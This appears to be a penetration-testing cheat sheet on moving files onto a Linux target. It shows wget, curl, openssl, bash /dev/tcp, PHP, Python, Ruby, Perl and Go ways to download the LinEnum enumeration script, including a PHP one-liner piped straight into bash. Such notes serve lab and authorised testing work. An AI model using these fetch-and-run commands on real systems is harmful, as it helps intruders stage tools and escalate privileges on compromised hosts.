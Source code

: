 # Linux File Transfer

## Wget / cURL

```
#Wget
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh   

#Curl
curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```

## OpenSSL

[OpenSSL](https://www.openssl.org) is frequently installed.

```
#Create Certificate 
openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem   

#Stand up server
openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh   

#Downlaod File
openssl s_client -connect 10.10.10.32:80 -quiet > LinEnum.sh
```

## Bash (/dev/tcp)

as long as bash version 2.04 or greater is installed (compiled with --enable-net-redirections), the built-in /dev/tcp device file can be used for simple file downloads.

```
#Connect to Target's WebServer
exec 3<>/dev/tcp/<IP>/80

#HTTP GET Request
echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3

#Print The Response
cat <&3
```

## PHP

**File\_get\_contents()**

```
php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'
```

### Fopen()

```
php -r 'const BUFFER = 1024; $fremote = 
fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'

```

### Php-curl

If the `php-curl` module has been installed,

```
php -r '$rfile = "https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"; $lfile = "LinEnum.sh"; $fp = fopen($lfile, "w+"); $ch = curl_init($rfile); curl_setopt($ch, CURLOPT_FILE, $fp); curl_setopt($ch, CURLOPT_TIMEOUT, 20); curl_exec($ch);'

#It is also possible to retrieve each line as an array and pipe the output to bash.
php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
```

### Python

```
#Python2
import urllib
urllib.urlretrieve ("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")

#Python3
import urllib.request
urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")

```

## Other Languages

### Ruby

```
ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'   
```

### Perl

```
perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'
```

### Go

```
package main

import (
	 "os"
     "io"
     "net/http"
)

func main() {
     lfile, err := os.Create("LinEnum.sh")
     _ = err
     defer lfile.Close()

     rfile := "https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"
     response, err := http.Get(rfile)
     defer response.Body.Close()

     io.Copy(lfile, response.Body)
}

```

